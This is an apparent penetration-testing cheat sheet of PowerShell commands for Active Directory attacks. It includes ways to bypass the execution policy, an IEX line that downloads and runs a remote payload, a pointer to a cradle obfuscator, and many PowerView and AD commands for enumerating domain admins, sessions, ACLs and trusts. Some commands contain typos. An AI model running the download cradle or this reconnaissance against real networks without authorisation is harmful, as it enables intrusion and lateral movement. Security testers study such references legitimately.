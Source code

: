 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

**All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  

**Get all the members of the Domain Admins group**:  
1. Get-NetGroupMember -GroupName "Domain Admins"  
  
**Get group membership for a user**:  
1. Get-NetGroup -UserName \<user name\>  

**Get computers of the domain**:  
1. Get-NetComputer  
2. Get-NetComputer -FullData  

**Fins all machines on the current domain where the current user has a local admin access**:  
1. Find-LocalAdminAccess -Verbose  
  
**Find all admins on all machines of the domain**:  
1. Invoke-EnumerateLocalAdmin -Verbose  
  
**List sessions on the current computer**:  
1. Get-NetSession -ComputerName \<computer name\>  
  
**Find computers where a omain admin is logged on and current user has access**:  
1. Invoke-UserHunt -CheckAccess  


**Get ACLs**:  
1. Get-ObjecAcl -SamAccountName \<user name\> -ResolveGUIDs  
2. Get-ObjecAcl -ADSprefix 'CN=Administrators,CN=Users'  
3. Invoke-ACLScanner -ResolveGUIDs  
  
**Get a list of all domain trusts for the current domain**:  
1. Get-NetDomainTrust  
2. Get-NetDomainTrust -Domain \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
1. Get-NetForest  
2. Get-NetForest -Forest \<forest name\>  
  
**Get all domains in current forest**:  
1. Get-NetForestDomain  
2. Get-NetForestDomain -Forest \<forest name\>  
  
**Get forest trusts**:  
1. Get-NetForestTrust  
2. Get-NetForestTrust -Forest \<forest name\>  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter {Name like "\*admin\*"} | select Name  
  
**Get all the members of the Domain Admins group**:  
1. Get-ADGroupMember -Identity "Domain Admins" -Recursive  

**Get group membership for a user**:  
1. Get-ADPrincipalGroupMembership -Identity \<user name\>  
  
**Get computers of the domain**:  
1. Get-ADComputer -Filter * | select Name  
2. Get-ADComputer -Filter \* -Prooerties \*  
  
**Get ACLs**:  
1. (Get-Acl 'AD:\CN=Lab,CN=Users,DC=domain,DC=local').Access  

**Get a list of all domain trusts for the current domain**:  
1. Get-ADTrust  
2. Get-ADTrust -Identiy \<domain name\>  
  
**Get a list of all forest trusts for the current domain**:  
 1. (Get-ADForest).Domains  
 2. Get-ADForest -Identiy \<forest name\>  
  
**Get forest trusts**:  
 1. Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'  

## POWERSHELL REMOTING  
 - To enable PSRemoting user need Admin privieleges.  
 - Enabled by default on Server 2012 onwards.  
  
  
  
